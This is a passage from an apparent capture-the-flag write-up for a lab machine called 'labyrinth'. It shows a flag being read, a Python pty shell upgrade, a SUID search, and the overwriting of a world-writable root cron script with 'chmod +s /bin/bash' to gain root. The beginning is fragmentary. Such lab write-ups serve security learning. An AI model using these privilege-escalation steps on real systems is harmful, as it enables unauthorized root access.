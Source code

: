 ```
?>
```

lol no password That might always be good to know

```
daemon@labyrinth:/home/user$ cat flag.txt
cat flag.txt

flag #3
fla9{the_minotaur_was_just_a_hipster}
```

## Privilege Escalation

Now privesc?

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
```

lets explore Minotaur's home folder....nothing useful

where is that timer they were talking about???

`find / -perm u=s 2> /dev/null`

the process hanged....geez (that shell is not very...stable)...anyway not very useful

Manualy exploring then...we start from `/` folder and we see a `"timers"` folder

```
cd timers
daemon@labyrinth:/timers$ls -al
ls -al
total 12
drwxrwxrwx 2 root root 4096 jún 15 18:01 .
drwxr-xr-x 26 root root 4096 nov 9 13:37 ..
-rwxrwxrwx 1 root root 70 jún 15 18:01 timer.sh
```

we have all permissions on timer.sh

```
cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
```

It appends this to the txt file...probably running as a cron task (it updated in live)

But look at the Owner...ROOT

if we add a shell to it we can catch a connection as root...or more simply make it spawn a shell directly

```
echo '
#!/bin/bash
chmod +s /bin/bash
' > timer.sh (or >> to just append)
```
